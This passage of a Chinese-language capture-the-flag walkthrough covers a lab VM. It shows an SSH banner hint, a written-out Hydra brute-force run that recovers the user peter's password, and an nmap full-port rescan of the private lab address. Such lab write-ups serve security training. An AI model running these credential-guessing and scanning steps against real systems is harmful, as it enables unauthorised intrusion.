 只开放ssh服务

## ssh

```sh
└─$ ssh root@192.168.110.151 -p65535
#############################################################################
#                  Welcome to Initech Cyber Consulting, LLC                 #
#                 All connections are monitored and recorded                #
#                     Unauthorized access is encouraged                     #
#             Peter, if that's you - the password is in the source.         #
#          Also, stop checking your blog all day and enjoy your vacation!   # 
#############################################################################
```

提示：peter的密码是：`in the source`

```sh
hydra -L users.txt -P passwd.txt ssh://192.168.110.151:65535 -t 4 -vV -e ns
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-15 08:00:57
[DATA] max 4 tasks per 1 server, overall 4 tasks, 8 login tries (l:1/p:8), ~2 tries per task
[DATA] attacking ssh://192.168.110.151:65535/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[INFO] Testing if password authentication is supported by ssh://peter@192.168.110.151:65535
[INFO] Successful, password authentication is supported by ssh://192.168.110.151:65535
[ATTEMPT] target 192.168.110.151 - login "peter" - pass "peter" - 1 of 8 [child 0] (0/0)
[ATTEMPT] target 192.168.110.151 - login "peter" - pass "" - 2 of 8 [child 1] (0/0)
[ATTEMPT] target 192.168.110.151 - login "peter" - pass "Consulting" - 3 of 8 [child 2] (0/0)
[ATTEMPT] target 192.168.110.151 - login "peter" - pass "consulting" - 4 of 8 [child 3] (0/0)
[ATTEMPT] target 192.168.110.151 - login "peter" - pass "Peter" - 5 of 8 [child 1] (0/0)
[ATTEMPT] target 192.168.110.151 - login "peter" - pass "in the source" - 6 of 8 [child 0] (0/0)
[ATTEMPT] target 192.168.110.151 - login "peter" - pass "inthesource." - 7 of 8 [child 2] (0/0)
[ATTEMPT] target 192.168.110.151 - login "peter" - pass "inthesource" - 8 of 8 [child 1] (0/0)
[STATUS] attack finished for 192.168.110.151 (waiting for children to complete tests)
[65535][ssh] host: 192.168.110.151   login: peter   password: inthesource
1 of 1 target successfully completed, 1 valid password found
```

密码：`inthesource`

`ssh peter@192.168.110.151 -p65535`

登录不上，但是输入密码后，卡了很久，可能是加载了一些服务

再次扫描服务

```sh
nmap -sT --min-rate=8899 -p- 192.168.110.151
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-15 08:16 EST
Nmap scan report for 192.168.110.151 (192.168.110.151)
Host is up (0.012s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE SERVICE
80/tcp    open  http
111/tcp   open  rpcbind
51208/tcp open  unknown
65535/tcp open  unknown
```
